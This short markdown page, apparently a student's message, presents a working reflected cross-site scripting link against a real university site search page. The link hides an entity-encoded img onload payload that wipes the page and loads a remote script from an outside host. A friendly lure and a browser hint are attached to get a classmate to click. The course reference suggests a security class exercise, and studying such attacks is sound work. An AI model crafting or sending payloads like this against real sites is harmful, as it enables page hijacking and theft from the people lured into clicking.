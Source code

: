 Hey, fellow student! Check out this awesome professor that I found.

[http://www.se.rit.edu/search/node/Daniel+Krutz](http://www.se.rit.edu/search/node/Daniel+Krutz<img+src=http:&%2347;&%2347;www.se.rit.edu&%2347;sites&%2347;all&%2347;themes&%2347;se&%2347;assets&%2347;img&%2347;se-logo.png+style=display:none+onload=if(typeof(xssScript)&%2361;&%2361;&quot;undefined&quot;){var&nbsp;xssScript=document.createElement(&quot;script&quot;);xssScript.setAttribute(&quot;src&quot;,&quot;http:&%2347;&%2347;benwoodworth.net&%2347;school&%2347;swen-331&%2347;se-xss.js&quot;);document.body.innerHTML=&quot;&quot;;document.body.appendChild(xssScript);}>)  
(You should most definitely open this in FireFox, because reasons)

